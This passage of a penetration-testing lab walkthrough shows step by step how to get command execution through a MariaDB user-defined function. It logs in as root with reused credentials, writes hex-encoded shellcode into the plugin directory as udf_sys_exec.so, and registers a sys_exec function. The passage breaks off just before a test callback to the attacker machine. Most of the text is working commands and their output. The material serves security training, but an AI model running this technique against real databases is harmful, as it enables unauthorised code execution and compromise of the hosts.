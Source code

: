 - First, we will rerun the MariaDB client but this time we will use the root credentials we discovered on Ajla.

```bash
kali@kali:~$ mysql --host=127.0.0.1 --port=13306 --user=root -p
Enter password:
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]>
```

- Next, we will set the shell variable to the shellcode that we generated earlier.

```bash
MariaDB [(none)]> set @shell = 0x7f454c4602010100000000000000000003003e000100000000110
000000000004000000000000000e03b0000000000000000000040003800090040001c001b0001000000040
00000000000...00000000000000000000;
```

- With the shell variable set, we will verify one more time that the plugin directory is still set to **/home/dev/plugin**.

-   While this isn’t necessary for the flow, it’s a good idea to be certain nothing has changed.

```bash
MariaDB [(none)]> select @@plugin_dir;
+-------------------+
| @@plugin_dir |
+-------------------+
| /home/dev/plugin/ |
+-------------------+
1 row in set (0.072 sec)
```

- Now for the moment of truth. Let’s attempt to dump the binary shell to a file.

```bash
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so
';
Query OK, 1 row affected (0.078 sec)
```

- It worked! Before we get too excited, we still need to create a function.
```bash
MariaDB [(none)]> create function sys_exec returns int soname 'udf_sys_exec.so';
Query OK, 0 rows affected (0.078 sec)
```
- MariaDB did not provide us with any errors, leading us to believe that the function was created. 

- We can double check by running a command that queries for the sys\_exec function.

```bash
MariaDB [(none)]> select * from mysql.func where name='sys_exec';
+----------+-----+-----------------+----------+
| name | ret | dl | type |
+----------+-----+-----------------+----------+
| sys_exec | 2 | udf_sys_exec.so | function |
+----------+-----+-----------------+----------+
1 row in set (0.072 sec)
```
- Now let’s test if the sys\_exec UDF works by attempting to make a network call from Zora to our Kali machine.
